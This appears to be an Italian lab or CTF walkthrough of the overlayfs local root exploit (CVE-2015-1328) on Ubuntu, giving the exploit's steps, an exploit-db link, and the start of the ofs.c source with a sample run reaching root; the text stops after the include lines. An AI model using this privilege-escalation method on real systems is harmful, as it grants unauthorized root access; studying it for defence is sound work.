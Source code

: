 Questa macchina è vulnerabile all'exploit overlayfs. L'exploit è tecnicamente molto semplice:

- Crea un nuovo utente e monta lo spazio dei nomi utilizzando un clone con i flag CLONE_NEWUSER|CLONE_NEWNS.
- Montare un overlayfs utilizzando /bin come file system inferiore, alcune directory temporanee come directory superiore e di lavoro.
- Il montaggio di Overlayfs sarebbe visibile solo all'interno dello spazio dei nomi utente, quindi lasciamo che il processo dello spazio dei nomi modifichi CWD in overlayfs, rendendo così overlayfs visibile anche all'esterno dello spazio dei nomi tramite il file system proc.
- Rendi scrivibile il mondo su overlayfs senza cambiare il proprietario
- Consentire al processo esterno allo spazio dei nomi utente di scrivere contenuti arbitrari nel file applicando una variante leggermente modificata dell'exploit SetgidDirectoryPrivilegeEscalation.
- Eseguire il binario su modificato

Puoi scaricare l'exploit da qui: [https://www.exploit-db.com/exploits/37292](https://www.exploit-db.com/exploits/37292)
```
nano ofs.c
```
```
/*
# Exploit Title: ofs.c - overlayfs local root in ubuntu
# Date: 2015-06-15
# Exploit Author: rebel
# Version: Ubuntu 12.04, 14.04, 14.10, 15.04 (Kernels before 2015-06-15)
# Tested on: Ubuntu 12.04, 14.04, 14.10, 15.04
# CVE : CVE-2015-1328     (http://people.canonical.com/~ubuntu-security/cve/2015/CVE-2015-1328.html)

*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*
CVE-2015-1328 / ofs.c
overlayfs incorrect permission handling + FS_USERNS_MOUNT

user@ubuntu-server-1504:~$ uname -a
Linux ubuntu-server-1504 3.19.0-18-generic #18-Ubuntu SMP Tue May 19 18:31:35 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
user@ubuntu-server-1504:~$ gcc ofs.c -o ofs
user@ubuntu-server-1504:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),30(dip),46(plugdev)
user@ubuntu-server-1504:~$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),30(dip),46(plugdev),1000(user)

greets to beist & kaliman
2015-05-24
%rebel%
*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*
*/

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sched.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/mount.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
```